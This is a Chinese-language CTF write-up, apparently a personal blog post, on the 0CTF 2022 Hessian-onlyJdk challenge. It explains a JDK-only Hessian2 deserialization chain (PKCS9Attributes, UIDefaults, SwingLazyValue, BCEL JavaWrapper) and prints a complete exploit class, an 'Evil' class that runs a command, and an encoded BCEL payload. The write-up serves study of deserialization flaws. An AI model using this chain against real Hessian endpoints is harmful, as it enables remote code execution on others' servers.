



+++
title= "0CTF2022 Hessian_onlyjdk"
slug= "0ctf-2022-hessian-onlyjdk"
description= ""
date= "2025-11-18T21:34:05+08:00"
lastmod= "2025-11-18T21:34:05+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

> https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2022/hessian-onlyJdk/deploy/hessian-onlyJdk.jar
>
> hint:
>
> https://y4er.com/posts/wangdingbei-badbean-hessian2/
>
> https://x-stream.github.io/CVE-2021-21346.html

第一个 hint 说明是从 toString 方法出发，第二个 hint 是一条 gadget

```xml
Rdn$RdnEntry#compareTo->
    XString#equal->
        MultiUIDefaults#toString->
            UIDefaults#get->
                UIDefaults#getFromHashTable->
                    UIDefaults$LazyValue#createValue->
                        SwingLazyValue#createValue->
                            InitialContext#doLookup()
```

但是看了知道创宇的文章发现

- javax.swing.MultiUIDefaults是peotect类，只能在javax.swing.中使用，而且Hessian2拿到了构造器，但是没有setAccessable，newInstance就没有权限
- 所以要找链的话需要类是public的，构造器也是public的，构造器的参数个数不要紧，hessian2会自动挨个测试构造器直到成功

所以这条链子的可用性还剩下

```xml
UIDefaults#get->
    UIDefaults#getFromHashTable->
        UIDefaults$LazyValue#createValue->
            SwingLazyValue#createValue->
```

而 UIDefaults 是 Hashtable 的子类，看下`SwingLazyValue#createValue`

```java
public Object createValue(UIDefaults var1) {
    try {
        ReflectUtil.checkPackageAccess(this.className);
        Class var2 = Class.forName(this.className, true, (ClassLoader)null);
        if (this.methodName != null) {
            Class[] var6 = this.getClassArray(this.args);
            Method var7 = var2.getMethod(this.methodName, var6);
            this.makeAccessible(var7);
            return var7.invoke(var2, this.args);
        } else {
            Class[] var3 = this.getClassArray(this.args);
            Constructor var4 = var2.getConstructor(var3);
            this.makeAccessible(var4);
            return var4.newInstance(this.args);
        }
    } catch (Exception var5) {
        return null;
    }
}
```

可以调用任意 public 方法，所以只需要找一条 toString 触发`Hashtable#get`，并且在后面拼接合适的 public 方法的 gadget，但是由于不考虑 Transformer 链，所以选择找静态 public 方法，依赖只存在 jdk8u324 和 hessian2，其中jdk的版本满足加载 BCEL 字节码。找到`JavaWrapper#_main`方法



跟进`JavaWrapper#runMain`方法

```java
public void runMain(String class_name, String[] argv) throws ClassNotFoundException
  {
    Class   cl    = loader.loadClass(class_name);
    Method method = null;

    try {
      method = cl.getMethod("_main",  new Class[] { argv.getClass() });

      /* Method _main is sane ?
       */
      int   m = method.getModifiers();
      Class r = method.getReturnType();

      if(!(Modifier.isPublic(m) && Modifier.isStatic(m)) ||
         Modifier.isAbstract(m) || (r != Void.TYPE))
        throw new NoSuchMethodException();
    } catch(NoSuchMethodException no) {
      System.out.println("In class " + class_name +
                         ": public static void _main(String[] argv) is not defined");
      return;
    }

    try {
      method.invoke(null, new Object[] { argv });
    } catch(Exception ex) {
      ex.printStackTrace();
    }
  }
```

可以触发`_main`方法，回头看 loader

```java
private static java.lang.ClassLoader getClassLoader() {
    String s = SecuritySupport.getSystemProperty("bcel.classloader");

    if((s == null) || "".equals(s))
      s = "com.sun.org.apache.bcel.internal.util.ClassLoader";

    try {
      return (java.lang.ClassLoader)Class.forName(s).newInstance();
    } catch(Exception e) {
      throw new RuntimeException(e.toString());
    }
  }
```

会创建 bcel 类加载器一个所以可以构造一个恶意类

```java
package org.example;

public class Evil {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

下一步就是开头，看到`sun.security.pkcs.PKCS9Attributes#toString`

```java
public String toString() {
    StringBuffer var1 = new StringBuffer(200);
    var1.append("PKCS9 Attributes: [\n\t");
    boolean var4 = true;

    for(int var5 = 1; var5 < PKCS9Attribute.PKCS9_OIDS.length; ++var5) {
        PKCS9Attribute var3 = this.getAttribute(PKCS9Attribute.PKCS9_OIDS[var5]);
        if (var3 != null) {
            if (var4) {
                var4 = false;
            } else {
                var1.append(";\n\t");
            }

            var1.append(var3.toString());
        }
    }

    var1.append("\n\t] (end PKCS9 Attributes)");
    return var1.toString();
}
```

会调用到 getAttribute

```java
    public PKCS9Attribute getAttribute(ObjectIdentifier var1) {
        return (PKCS9Attribute)this.attributes.get(var1);
    }
```



齐了就

```java
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import sun.reflect.ReflectionFactory;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;

public class Exp {
    public static void main(String[] args) throws Exception {
        PKCS9Attributes s = createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String payload = "$$BCEL$$" + Utility.encode(Repository.lookupClass(org.example.Evil.class).getBytes(), true);

        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}}));

        setFieldValue(s,"attributes",uiDefaults);

        byte[] data=serialize(s);
        unserialize(data);
    }
    public static byte[] serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        baos.write(67);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }

    public static <T> T createWithoutConstructor(Class<T> clazz) throws Exception {
        return createWithConstructor(clazz, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> targetClass,
                                              Class<? super T> constructorClass,
                                              Class<?>[] argTypes,
                                              Object[] args) throws Exception {
        Constructor<? super T> templateCons = constructorClass.getDeclaredConstructor(argTypes);
        templateCons.setAccessible(true);
        Constructor<?> fakeCons = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(targetClass, templateCons);
        fakeCons.setAccessible(true);
        return (T) fakeCons.newInstance(args);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



调用栈

```java
at $$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3d$D$85BEy$J$be$Vu$n$98h7$$L0n$88$ae$88$g1$b8pa$86$3a$a9C$fa$m$a5$Q$7e$cb$8d$g$X$7e$80$le$bcS$N5J$93$b9$t$f7$dc$c793$fd$f8$7c$7b$Hp$84$5d$DiT$N$ya9$83$V$85$ab$3a$d6t$ac3$a4O$a4$t$c3S$86d$bd$d1e$d0Z$fe$83$60$c8$b7$a5$t$$FnO$E7$bc$e7$QSj$fb$Ww$ba$3c$90$w$ff$n$b5$f0Q$O$a3Z$60$9bb$c2$dd$81$p$cc$b3$b1t$9a$M$a9$7b$97K$8f$a1Z$bfk$f7$f9$98$9b$O$f7l$b3$T$G$d2$b3$9b$91$U$P$ec1CyF$99$c18$9bXb$QJ$df$h$ea$d8$a0$bc$e3$8f$CK$9cK$r$9bU$S$87j$w$H$j$Z$j$9b9l$a1FF$fc$81$f0j$H$bc$d6$e2$8e5rx$e8$H9lc$87$a1$f0$d7$nQ$b1$ece$af$_$ac$90$bc$c4$d4T$9f$a1$Y$b3$d7$p$_$94$$Y0l$RN$93J$bd$d1$fe$d7C$97$d0$c4DX$M$7b$f5$Z$P$f0$8b$ba$K$7cK$M$87Mr$9a$a2$ff$a4$be$E$98$ba$Z$c5$ye$s$n$pL$ed$bf$80$3dEe$83b$3a$o$93$98$a3$98$fbn$m$9c$t$ccb$By$eaR$c3$c7$d12$c0xE$a2$94$7c$86v$ho0$I$d5T$96v$c5$5b$M$UP$q$y$d1$d1$88$v$d3Y$8cf$w_$bd$3aMZR$C$A$A._main(Evil.java:6)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at com.sun.org.apache.bcel.internal.util.JavaWrapper.runMain(JavaWrapper.java:131)
at com.sun.org.apache.bcel.internal.util.JavaWrapper._main(JavaWrapper.java:153)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at sun.swing.SwingLazyValue.createValue(SwingLazyValue.java:73)
at javax.swing.UIDefaults.getFromHashtable(UIDefaults.java:216)
at javax.swing.UIDefaults.get(UIDefaults.java:161)
at sun.security.pkcs.PKCS9Attributes.getAttribute(PKCS9Attributes.java:265)
at sun.security.pkcs.PKCS9Attributes.toString(PKCS9Attributes.java:334)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at com.caucho.hessian.io.Hessian2Input.expect(Hessian2Input.java:2865)
at com.caucho.hessian.io.Hessian2Input.readString(Hessian2Input.java:1407)
at com.caucho.hessian.io.Hessian2Input.readObjectDefinition(Hessian2Input.java:2163)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2105)
at org.example.Exp.unserialize(Exp.java:46)
at org.example.Exp.main(Exp.java:31)
```

同时我看到`@Bmth`师傅的文章中有很多种方法，有兴趣的师傅可以自己去复现下

> https://siebene.github.io/2022/09/19/0CTF2022-hessian-onlyjdk-WriteUp/
>
> https://xz.aliyun.com/news/11178
>
> http://www.bmth666.cn/2023/02/07/0CTF-TCTF-2022-hessian-onlyJdk/index.html
>
